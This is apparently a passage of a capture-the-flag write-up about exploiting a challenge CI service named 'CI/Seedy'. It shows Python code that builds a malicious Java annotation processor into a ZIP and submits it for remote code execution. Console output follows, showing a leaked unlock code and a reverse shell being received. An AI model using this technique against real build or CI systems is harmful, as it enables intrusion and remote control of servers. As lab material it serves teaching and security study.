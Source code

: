 ```python
 152   │     open("{}/dep/META-INF/services/javax.annotation.processing.Processor".format(tmpdirname), 'wb'
 153   │          ).write(b'dk.kalmar.ExploitProcessor')
 154   │     os.system("bash -c 'cd {}; javac ExploitProcessor.java; "
 155   │               "mv ExploitProcessor.class dep/dk/kalmar/; "
 156   │               "rm ExploitProcessor.java' 2>/dev/null >/dev/null".format(tmpdirname))
 157   │     open("{}/Main.java".format(tmpdirname), 'wb').write(b'')
 158   │     os.system("bash -c 'cd {}/dep; jar cvf dep.jar ./; mv dep.jar ..' 2>/dev/null "
 159   │               ">/dev/null".format(tmpdirname))
 160   │     os.system("bash -c 'cd {}; rm -rf dep; zip -r exp.zip .' 2>/dev/null >/dev/null".format(
 161   │         tmpdirname))
 162   │
 163   │     return tmpdir
```

The ZIP file can be submitted to the server like so:

```python
  88   │ def java_annotation_rce(p, tmpdir, local_ip, local_port, unlock_code):
  89   │     '''Exploit the Java annotation RCE detailed in
  90   │     https://www.kalmarunionen.dk/writeups/2022/rwctf/secured-java/.
  91   │     '''
  92   │     zip_path = '{}/exp.zip'.format(tmpdir.name)
  93   │     user_input = open(zip_path, 'rb').read()
  94   │     request = generate_request('java', user_input, unlock_code)
  95   │     p.sendline(request)
```

Once a reverse shell is received, the flag can be obtained with `/readflag`.

## Running the Exploit

Running the full exploit gives us a reverse shell.

```console
python exploit.py localhost 192.168.10.244
[*] Executing CI/Seedy exploit against: localhost:31337
[+] Trying to bind to :: on port 0: Done
[+] Waiting for connections on :::53037: Got connection from ::ffff:192.168.64.2 on port 32798
[*] Reverse shell listener started on: 192.168.10.244:53037
[+] Opening connection to localhost on port 31337: Done
[*] CI/Seedy v.0.2.4 - Simple CI/CD for Everyone. API ready.
[../.....] Leaking unlock code...
[+] Leaked unlock code: 3a487024-b249-4bfb-b6d4-74a7ea143c51
[*] Created temporary directory: /var/folders/lt/hdxvsybs05q2lbgbk_b7phgr0000gn/T/tmp9yyj48uk
[*] Java RCE ZIP file created.
[+] Java annotation RCE triggered. Please standby for shell.
[+] Enjoy your shell.
[*] Switching to interactive mode
/bin/sh: 0: can't access tty; job control turned off
$ Linux c3319ea49e1b 5.15.111 #1 SMP Mon May 15 16:48:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
$ uid=1000(seedy) gid=1000(seedy) groups=1000(seedy)
$ eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 527  bytes 171858 (171.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 269  bytes 29721 (29.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
```